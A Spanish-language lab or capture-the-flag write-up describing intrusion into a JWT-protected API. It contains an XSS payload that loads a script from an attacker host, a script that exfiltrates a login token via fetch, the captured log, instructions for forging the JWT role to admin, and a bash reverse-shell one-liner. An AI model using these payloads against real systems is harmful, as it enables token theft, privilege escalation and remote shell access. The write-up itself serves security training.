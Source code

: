# Intrusión

Como podemos ver, es una api en la cual tenemos que logearnos para obtener un `json web token`, luego de logearnos, podemos ejecutar un comando pasando el `jwt` y el comando pero solo si nuestro usuario es admin. Sabiendo esto, podemos primero script para logearnos:

```js
const xhr = new XMLHttpRequest();
xhr.open("POST", "http://127.0.0.1:3000/login", true);
xhr.setRequestHeader("Content-Type", "application/json");

xhr.onload = function () {
    fetch("http://192.168.56.1:7070/?d=" + encodeURIComponent(xhr.responseText));
};

const data = JSON.stringify({
    "username": "Jose",
    "password": "FuLqqEAErWQsmTQQQhsb"
});

xhr.send(data);
```

este no lo pasaremos a la web, este lo crearemos en nuestra propia máquina como `jwt.js`. Ahora si creamos el payload:

```html
<script src="http://192.168.56.1:9090/jwt.js"></script>
```

este lo transformamos y lo registramos en la web. Nuevamente creamos un servidor de python por el puerto 9090 y al cabo de un rato vemos lo siguiente por nuestro segundo servidor que se encuentra en el puerto 7070:

```css
192.168.56.115 - - [09/Mar/2025 20:05:15] "GET /?d=%7B%22message%22%3A%22Login%20correcto%22%2C%22token%22%3A%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikpvc2UiLCJyb2xlIjoidXNlciIsImlhdCI6MTc0MTU2MTUxMywiZXhwIjoxNzQxNTY1MTEzfQ.ly0pUDu6TJ3UeyIfS729iUj47apiBvgLf4TbqNaKXjo%22%7D HTTP/1.1" 200 -
```

lo pasamos de url encode a ascii con un [urldecoder](https://www.urldecoder.org/) y veremos el mensaje real:

```css
{"message":"Login correcto","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikpvc2UiLCJyb2xlIjoidXNlciIsImlhdCI6MTc0MTU2MTUxMywiZXhwIjoxNzQxNTY1MTEzfQ.ly0pUDu6TJ3UeyIfS729iUj47apiBvgLf4TbqNaKXjo"}
```

Teniendo el token, lo pasamos por [jwt.io](https://jwt.io/) y modificamos el rol de "user" a "admin".

Ahora creamos un archivo llamado shell que contenga lo siguiente:

```css
bash -c 'bash -i >& /dev/tcp/192.168.56.1/443 0>&1'
```
